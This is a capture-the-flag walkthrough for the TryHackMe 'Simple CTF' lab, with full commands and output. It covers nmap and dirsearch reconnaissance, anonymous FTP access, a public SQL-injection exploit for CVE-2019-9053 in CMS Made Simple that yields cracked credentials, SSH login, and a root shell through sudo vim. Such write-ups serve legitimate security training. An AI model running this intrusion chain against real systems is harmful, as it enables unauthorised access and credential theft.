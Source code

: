 #+TITLE: TryHackMe - Simple CTF writeup

https://tryhackme.com/room/easyctf

* Scanning and Enumeration

	#+begin_src shell
		nmap -p- -T4 -vv 10.10.10.10
		nmap - 21,80,2222 -T4 -sC -sV -vv 10.10.10.10

		PORT     STATE SERVICE REASON  VERSION
		21/tcp   open  ftp     syn-ack vsftpd 3.0.3
		| ftp-anon: Anonymous FTP login allowed (FTP code 230)
		|_Can't get directory listing: TIMEOUT
		| ftp-syst:
		|   STAT:
		| FTP server status:
		|      Connected to ::ffff:10.9.2.83
		|      Logged in as ftp
		|      TYPE: ASCII
		|      No session bandwidth limit
		|      Session timeout in seconds is 300
		|      Control connection is plain text
		|      Data connections will be plain text
		|      At session startup, client count was 3
		|      vsFTPd 3.0.3 - secure, fast, stable
		|_End of status
		80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
		| http-methods:
		|_  Supported Methods: OPTIONS GET HEAD POST
		| http-robots.txt: 2 disallowed entries
		|_/ /openemr-5_0_1_3
		2222/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
		| ssh-hostkey:
		|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
		| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCj5RwZ5K4QU12jUD81IxGPdEmWFigjRwFNM2pVBCiIPWiMb+R82pdw5dQPFY0JjjicSysFN3pl8ea2L8acocd/7zWke6ce50tpHaDs8OdBYLfpkh+OzAsDwVWSslgKQ7rbi/ck1FF1LIgY7UQdo5FWiTMap7vFnsT/WHL3HcG5Q+el4glnO4xfMMvbRar5WZd4N0ZmcwORyXrEKvulWTOBLcoMGui95Xy7XKCkvpS9RCpJgsuNZ/oau9cdRs0gDoDLTW4S7OI9Nl5obm433k+7YwFeoLnuZnCzegEhgq/bpMo+fXTb/4ILI5bJHJQItH2Ae26iMhJjlFsMqQw0FzLf
		|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
		| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBM6Q8K/lDR5QuGRzgfrQSDPYBEBcJ+/2YolisuiGuNIF+1FPOweJy9esTtstZkG3LPhwRDggCp4BP+Gmc92I3eY=
		|   256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
		|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ2I73yryK/Q6UFyvBBMUJEfznlIdBXfnrEqQ3lWdymK
		Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
	#+end_src

* Enumerating Services
** FTP

	 Anonymous login is allowed for FTP, let's take a look.

	 #+begin_src shell
		 ftp 10.10.173.240

		 Connected to 10.10.173.240.
		 220 (vsFTPd 3.0.3)
		 Name (10.10.173.240:kali): anonymous
		 230 Login successful.
		 Remote system type is UNIX.
		 Using binary mode to transfer files.

		 ftp> dir
		 200 PORT command successful. Consider using PASV.
		 150 Here comes the directory listing.
		 drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 pub
		 226 Directory send OK.

		 ftp> cd pub
		 250 Directory successfully changed.

		 ftp> dir
		 200 PORT command successful. Consider using PASV.
		 150 Here comes the directory listing.
		 -rw-r--r--    1 ftp      ftp           166 Aug 17  2019 ForMitch.txt
		 226 Directory send OK.

		 ftp> get ForMitch.txt
		 local: ForMitch.txt remote: ForMitch.txt
		 200 PORT command successful. Consider using PASV.
		 150 Opening BINARY mode data connection for ForMitch.txt (166 bytes).
		 226 Transfer complete.
		 166 bytes received in 0.00 secs (271.0859 kB/s)

		 ftp> exit
		 221 Goodbye.
	 #+end_src

	 The 'ForMitch.txt' file contains a clue: "Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!"

** HTTP

	 The website at http://10.10.173.240:80/ is the "Apache2 Ubuntu Default Page". Let's look for any hidden directories:

	 #+begin_src shell
		 dirsearch -u http://10.10.173.240 -w /usr/share/wordlists/dirb/common.txt

		 Target: http://10.10.173.240/

		 [08:07:14] Starting:
		 [08:07:22] 200 -   11KB - /index.html
		 [08:07:26] 200 -  929B  - /robots.txt
		 [08:07:27] 403 -  301B  - /server-status
		 [08:07:27] 301 -  315B  - /simple  ->  http://10.10.173.240/simple/
	 #+end_src

* Vulnerable Web application

	http://10.10.173.240/simple shows a succesful installation of *CMS Made Simple v2.2.8* and let's us known that:
	- the admin page is at http://10.10.173.240/simple/admin/
	- the news module is installed

	Using `searchsploit`, we find the latter has a known vulnerability, *CVE-2019-9053*.

	#+begin_src shell
		searchsploit cms made simple

		-------------------------------------------------------------- ---------------------------------
		Exploit Title                                                |  Path
		-------------------------------------------------------------- ---------------------------------
		CMS Made Simple < 2.2.10 - SQL Injection                      | php/webapps/46635.py
		-------------------------------------------------------------- ---------------------------------
	#+end_src

	#+begin_quote
	An issue was discovered in CMS Made Simple 2.2.8. It is possible with the News module, through a crafted URL, to achieve unauthenticated blind time-based SQL injection via the m1_idlist parameter.
	#+end_quote

	https://nvd.nist.gov/vuln/detail/CVE-2019-9053
	https://www.exploit-db.com/exploits/46635

	Let's run the exploit as follow:

	#+begin_src shell
		searchsploit -m 46635
		python 46635.py -u http://10.10.173.240/simple/ --crack -w /usr/share/wordlists/rockyou.txt

		[+] Salt for password found: 1dac0d92e9fa6bb2
		[+] Username found: mitch
		[+] Email found: admin@admin.com
		[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
		[+] Password cracked: secret
	#+end_src

* User flag

	The credentials obtained allows to connect to the machine via SSH.

	#+begin_src shell
		ssh mitch@10.10.173.240 -p 2222
		cat user.txt
	#+end_src

* Privelege Escalation and root flag

	#+begin_src shell
		sudo -l

		User mitch may run the following commands on Machine:
		(root) NOPASSWD: /usr/bin/vim
	#+end_src

	`vim` is executable as root via sudo without need for a password. Run `sudo vim`, following by `:!/bin/bash` to get a root shell: flag is in '/root/root.txt'.

	#+begin_src shell
		sudo vim -c ":!/bin/sh"

		# id
		uid=0(root) gid=0(root) groups=0(root)

		cat /root/root.txt
	#+end_src
